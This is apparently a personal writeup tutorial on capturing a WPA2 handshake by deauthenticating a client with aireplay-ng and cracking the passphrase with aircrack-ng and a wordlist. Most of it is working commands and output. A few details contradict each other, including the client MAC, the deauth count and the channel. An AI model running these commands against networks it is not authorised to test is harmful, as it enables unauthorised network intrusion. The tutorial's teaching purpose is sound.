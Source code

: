 ```yaml
---
description: >-
  Cracking Hashes
title:  Cracking Hashes      # Add title here
date: 2023-09-27 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Cracking Attacks]                     # Change Templates to Writeup
tags: [wireless, cracking hashes]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


### Methodology

- First, we'll need to capture a handshake. 
- Next, we will make a guess at the passphrase and send that guess into the hash function. 
- We will then compare the output from the hash function to the handshake.

### Capturing the Handshake

We will identify the channel of the target AP and gather its BSSID to limit our capture with airodump-ng.
```bash
sudo airodump-ng wlan0
BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 XX:XX:XX:XX:XX:XX  -67        4        0    0  11  720   WPA2 CCMP   PSK  PUMA5_GOL   
 XX:XX:XX:XX:XX:XX  -69        4        0    0   8  130   WPA2 CCMP   PSK  Total play may
 XX:XX:XX:XX:XX:XX  -71        3        0    0   2  130   OPN              ClubTotalplay_WiFi_2.4G
 XX:XX:XX:XX:XX:XX  -49       28        0    0  11  195   WPA2 CCMP   PSK  TOTALPLAY_220C3C       
 XX:XX:XX:XX:XX:XX  -61       12        0    0  11  130   WPA2 CCMP   PSK  INFINITUM37FA 
 XX:XX:XX:XX:XX:XX  -67       13        0    0  11  130   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -38       24        3    0  11  195   WPA2 CCMP   PSK  IZZI-F0AC   
 XX:XX:XX:XX:XX:XX  -68        3        0    0   6  130   OPN              MXConectado-E 
 XX:XX:XX:XX:XX:XX  -66        4        0    0   6  540   WPA2 CCMP   PSK  IZZI-D49A   
 XX:XX:XX:XX:XX:XX  -61       13        1    0   8  130   WPA2 CCMP   PSK  INFINITUM1500 
 7C:13:1D:B2:3D:A4  -29       42       19    0   5  130   WPA2 CCMP   PSK  Not_Of_Your_Buzzinez <----
BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -67    0 - 1e     0        1
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    1e- 1e     0        3
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -69    0 - 1e     0        2
 7C:13:1D:B2:3D:A4  1E:F4:C6:7B:66:C1  -32    0 - 1e     0        1 <----
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX  -71    0 - 1e   502        6
 XX:XX:XX:XX:XX:XX  XX:XX:XX:XX:XX:XX   -1    1e- 0      0       72                   
```
Our target is the 'Not_Of_Your_Buzzinez' AP, which operates on channel 5. Its BSSID is 7C:13:1D:B2:3D:A4 and it has one client with a MAC address of 00:18:4D:1D:A8:1F. The AUTH column shows the AP has an authentication type of PSK. This is a good sign. aircrack-ng does not work when the authentication is Enterprise (MGT), as it requires a different set of tools. Opportunistic Wireless Encryption cannot be cracked yet.

Then we proceed to capture the packet as follows:
```bash
sudo airodump-ng -c 5 -w wpa --essid 'Not_Of_Your_Buzzinez' --bssid 7C:13:1D:B2:3D:A4 wlan0
```

With the airodump-ng running we then proceed to deauthenticate the user from the AP with aireplay-ng. We'll use the -0 1 option to deauthenticate once, and -a to target our BSSID. We'll use -c to identify the associated client, and finally specify wlan0mon for our listening interface.
```bash
sudo aireplay-ng -0 10 -a 7C:13:1D:B2:3D:A4 -c 1E:F4:C6:7B:66:C1 wlan0
13:30:30  Waiting for beacon frame (BSSID: 7C:13:1D:B2:3D:A4) on channel 1
13:30:30  Sending 64 directed DeAuth (code 7). STMAC: [1E:F4:C6:7B:66:C1] [ 0| 0 ACKs]

```
Aireplay-ng checks that the BSSID exists before sending the deauthentication packets. Once the client reconnects with the target AP, airodump-ng will be able to capture a handshake.
```bash
CH  5 ][ Elapsed: 52 s ][ 2020-02-29 13:31 ][ WPA handshake: 1E:F4:C6:7B:66:C1
```

### Cracking the Hash

Now that we have captured a handshake, cracking it is relatively easy. We run aircrack-ng against our recently created capture file, wpa-01.cap. We'll use a list of commonly used passwords, also known as a wordlist, located at /usr/share/john/password.lst. We'll use -w to specify the path to our wordlist. Next, we'll use -e to indicate which ESSID to target, and then -b to specify the BSSID.

```bash
aircrack-ng -w /usr/share/john/password.lst -e 'Not_Of_Your_Buzzinez' -b 7C:13:1D:B2:3D:A4 wpa-01.cap
                               Aircrack-ng 1.7 

      [00:00:00] 2/5 keys tested (214.45 k/s) 

      Time left: 0 seconds                                      40.00%

                      KEY FOUND! [ Th1s1s0bvi0uslyN0tTh3P4ssw0rd ]


      Master Key     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      Transient Key  : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 
                       XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX 

      EAPOL HMAC     : XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX XX
```